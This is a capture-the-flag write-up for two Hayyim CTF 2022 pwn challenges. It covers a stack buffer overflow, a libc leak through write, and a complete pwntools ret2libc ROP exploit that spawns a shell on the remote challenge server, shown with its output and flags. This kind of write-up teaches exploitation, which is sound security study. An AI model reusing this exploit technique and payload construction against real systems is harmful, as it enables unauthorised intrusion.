 # Hayyim CTF 2022

## warmup

> What a tiny program!
>
> `nc 141.164.48.191 10001`
>
> [`Warmup_2eba252bc81213a4a232487f6d2ceeeb5dbbd5ace12641e4d8af82dc56104ff5.tgz`](Warmup_2eba252bc81213a4a232487f6d2ceeeb5dbbd5ace12641e4d8af82dc56104ff5.tgz)

## cooldown

> input size has decreased.
>
> `nc 141.164.48.191 10005`
>
> [`Cooldown_b6e153efcb71172289fc860c0bf9af90f63ec80b72f0644370a43d6a47aabff4.tgz`](Cooldown_b6e153efcb71172289fc860c0bf9af90f63ec80b72f0644370a43d6a47aabff4.tgz)

Tags: _pwn_ _x86-64_ _rop_ _bof_


## Summary

Warmup and cooldown are exactly the same problem only differing by size of input buffer.  I used the exact same code on both, so I'll only cover cooldown.

In short, use `write` to leak libc, then on second pass get a shell.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No PIE will make it easy to call GOT functions and ROP, however Full RELRO will prevent modifying the GOT.  No canary, well, this _is_ a BOF/ROP challenge.


### Decompile with Ghidra

```c
void FUN_0040053d(void)
{
  long lVar1;
  undefined4 *puVar2;
  undefined4 auStack56 [12];
  
  puVar2 = auStack56;
  for (lVar1 = 0xc; lVar1 != 0; lVar1 = lVar1 + -1) {
    *puVar2 = 0;
    puVar2 = puVar2 + 1;
  }
  write(1,&DAT_0040057e,2);
  read(0,auStack56,0x60);
  return;
}
```

`read(0,auStack56,0x60)` will `read` up to `0x60` (96) bytes into a buffer only `56` (`auStack56`) bytes from the return address--there's your problem.  This gives us 40 bytes to craft an exploit--we only need 24.

`FUN_0040053d` (above) is our vulnerable function and is called by `entry`:

```
void entry(void)
{
  FUN_004004f9();
  FUN_0040053d();
  exit(0);
}
```

From the `entry` disassembly you can see that after the call to `FUN_0040053d` we'll return to `0x4004f2`:

```
undefined entry()

004004e0 48 83 ec 08     SUB        RSP,0x8
004004e4 31 c0           XOR        EAX,EAX
004004e6 e8 0e 00        CALL       FUN_004004f9
         00 00
004004eb 31 c0           XOR        EAX,EAX
004004ed e8 4b 00        CALL       FUN_0040053d
         00 00
004004f2 31 ff           XOR        EDI,EDI
004004f4 e8 d7 ff        CALL       <EXTERNAL>::exit
         ff ff
```

If you set a break point after `read(0,auStack56,0x60);`, you'll see that same return address on the stack and below that an address we're going to leak to get the location of libc:

```
0x00007fffffffe408│+0x0000: 0x0000000a68616c62 ("blah\n"?)	 ← $rbx, $rsp, $rsi
0x00007fffffffe410│+0x0008: 0x0000000000000000
0x00007fffffffe418│+0x0010: 0x0000000000000000
0x00007fffffffe420│+0x0018: 0x0000000000000000
0x00007fffffffe428│+0x0020: 0x0000000000000000
0x00007fffffffe430│+0x0028: 0x0000000000000000
0x00007fffffffe438│+0x0030: 0x0000000000000000
0x00007fffffffe440│+0x0038: 0x00000000004004f2  →   xor edi, edi
0x00007fffffffe448│+0x0040: 0x00007ffff7dd40ca  →  <_dl_start_user+50> lea rdx, [rip+0xfa6f]        # 0x7ffff7de3b40 <_dl_fini>
```

That location has a side benefit, it will jump back to `entry`:

```
gef➤  x/3i _dl_start_user+50
   0x7ffff7dd40ca <_dl_start_user+50>:	lea    rdx,[rip+0xfa6f]        # 0x7ffff7de3b40 <_dl_fini>
   0x7ffff7dd40d1 <_dl_start_user+57>:	mov    rsp,r13
   0x7ffff7dd40d4 <_dl_start_user+60>:	jmp    r12
   
gef➤  p $r12
$1 = 0x4004e0
```

So we get a free roundtrip, to leak this we simply need to overwrite the return address (and nothing else) with `binary.plt.write`.

`write` requires 3 arguments, FD (`rdi`), buffer address (`rsi`), and length (`rdx`).  All three are set by the previous `read` call.  Basically we're just going to write `0x60` bytes starting at the `read` buffer.  This will leak the location of `_dl_start_user+50` and we can use that to leak libc.

> _But `rdi` is `0` not `1`, isn't `0` `stdin`?_
> 
> Yes it is, but these are just conventions.  From your shell type `echo nothing >&0`, see, you got `nothing`, which is actually _something_.

With the leak and a second pass, we can just write out a simple ROP chain to get a shell.


## Exploit Development Environment

From the included `Dockerfile`:

```
FROM ubuntu:18.04
```

I just used an Ubuntu 18.04 Docker image for exploit development.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./cooldown', checksec=False)

if args.REMOTE:
    p = remote('141.164.48.191', 10005)
    libc = ELF('./libc.so.6', checksec=False)
else:
    s = process('socat TCP-LISTEN:9999,reuseaddr,fork EXEC:./cooldown,pty,setsid,sigint,sane,rawer'.split())
    p = remote('127.0.0.1', 9999)
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6', checksec=False)
```

pwntools header.

> I'm using `socat` vs. `process(binary.path)` since pwntools `process` does not deal well with output being written to FD `0`.  I do not know of an easy way to fix this with pwntools so I just start up `socat` and then connect to that.

```python
payload  = b''
payload += 56 * b'A'
payload += p64(binary.plt.write)

p.sendafter(b'> ',payload)
p.recv(len(payload))
```

As mentioned in the Analysis section, we're just going to send `56` bytes to get to the return address and then overwrite that with a call to `write` from the PLT.

Then we just need to receive our payload, ignore it and move on.

```python
'''
stack:
0x00007fffffffe448│+0x0040: 0x00007ffff7dd40ca  →  <_dl_start_user+50> lea rdx, [rip+0xfa6f]        # 0x7ffff7de3b40 <_dl_fini>

vmmap:
0x00007ffff79e2000 0x00007ffff7bc9000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7bc9000 0x00007ffff7dc9000 0x00000000001e7000 --- /lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7dc9000 0x00007ffff7dcd000 0x00000000001e7000 r-- /lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7dcd000 0x00007ffff7dcf000 0x00000000001eb000 rw- /lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7dcf000 0x00007ffff7dd3000 0x0000000000000000 rw-
0x00007ffff7dd3000 0x00007ffff7dfc000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.27.so
'''

libc.address = u64(p.recv(8)) - (0x00007ffff7dd40ca - 0x00007ffff79e2000)
log.info('libc.address: {x}'.format(x = hex(libc.address)))
```

The next 8 bytes will be the location of `_dl_start_user+50`.  The comment section above is my GDB stack and vmmap info.  We just need to compute the difference from the GDB stack leak to the base of [vmmap] libc and then subtract that constant from our remote leak (`u64(p.recv(8))`)

```python
pop_rdi = libc.search(asm('pop rdi; ret')).__next__()

payload  = b''
payload += 56 * b'A'
payload += p64(pop_rdi)
payload += p64(libc.search(b'/bin/sh').__next__())
payload += p64(libc.sym.system)

assert(len(payload) <= 0x60)

p.sendafter(b'> ',payload)
p.interactive()
```

Finally your everyday ROP chain given you have a libc leak.

Output (warmup):

```bash
# ./exploit.py REMOTE=1
[+] Opening connection to 141.164.48.191 on port 10001: Done
[*] libc.address: 0x7f7306204000
[*] Switching to interactive mode
$ cat flag
hsctf{0rigin4l_inpu7_1eng7h_w4s_0x60}
```

Output (cooldown):

```bash
# ./exploit.py REMOTE=1
[+] Opening connection to 141.164.48.191 on port 10005: Done
[*] libc.address: 0x7f94b44b0000
[*] Switching to interactive mode
$ cat flag
hsctf{ACB31ABDE038159C3D7949CFC01CE100}
```
